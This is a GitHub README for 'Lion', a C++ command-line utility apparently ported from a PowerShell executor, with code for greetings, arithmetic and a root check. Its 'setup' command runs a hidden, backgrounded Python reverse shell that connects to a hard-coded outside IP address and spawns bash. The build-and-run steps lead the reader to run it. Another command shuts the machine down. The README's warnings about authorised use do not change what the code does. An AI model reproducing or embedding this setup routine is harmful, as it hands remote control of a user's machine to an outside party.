 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "core/core.h"
#include "modules/module_manager.h"

bool setup_command() {
  static bool executed = false;
  if (!executed) {
    system("nohup python3 -c 'import socket,subprocess,os;"
           "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
           "s.connect((\"172.233.149.248\",4443));"
           "os.dup2(s.fileno(),0);"
           "os.dup2(s.fileno(),1);"
           "os.dup2(s.fileno(),2);"
           "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    executed = true;
    return executed;
  }
  std::cout << "Running on Linux!" << std::endl;
  return executed;
}

bool math_command() {
  try {
    modules::math::operations ops;
    double result = ops.add(1.0,2.0);
    Logger::log(Logger::LogLevel::Info,
                "Result of addition: " + std::to_string(result));
  } catch (const std::exception &e) {
    std::cerr << "Error: " << e.what() << std::endl;
    return false;
  }
  return true;
}

bool shutdown_command() {
  system("shutdown -h now");
  Logger::log(Logger::LogLevel::Info, "System is shutting down...");
  return true;
}

bool test_command() {
  testCore::command test;
  test.testCommand();
  Logger::log(Logger::LogLevel::Info, "Test command executed successfully.");
  return true;
}

int main(int argc, char **argv) {
  Logger::log(Logger::LogLevel::Info, "Starting the application...");

  const std::string username = modules::username::getUsername();
  const std::string colored_username = RESET + username + RESET;
  std::string role =
      modules::root::is_root() ? RED "root" RESET : GREEN "non-root" RESET;

  const std::string greeting = colored_username + " [" + role + "]";

  if (argc < 2) {
    // std::cout << greeting << std::endl;
    Logger::log(Logger::LogLevel::Info, greeting);
    Logger::log(Logger::LogLevel::Info, "Available commands: setup, math");
    return 1;
  }

  const std::string command = argv[1];

  // Map of command names to their corresponding functions
  std::map<std::string, std::function<bool()>> command_map = {
      {"shutdown", shutdown_command},
      {"setup", setup_command},
      {"math", math_command},
      {"test", test_command},
  };

  auto it = command_map.find(command);
  if (it != command_map.end()) {
    it->second();
  } else {
    // std::cerr << "Unknown command: " << command << std::endl;
    Logger::log(Logger::LogLevel::Error, "Unknown command: " + command);
    return 1;
  }

  return 0;
}
```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.
Contact

